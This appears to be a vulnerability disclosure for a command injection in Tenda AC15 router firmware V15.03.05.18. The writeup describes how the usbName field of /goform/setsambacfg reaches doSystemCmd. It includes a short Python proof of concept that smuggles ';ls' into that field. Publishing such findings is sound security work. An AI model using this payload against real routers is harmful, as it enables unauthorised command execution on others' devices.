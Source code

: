 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `v9`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316174140053](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316174140053.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```


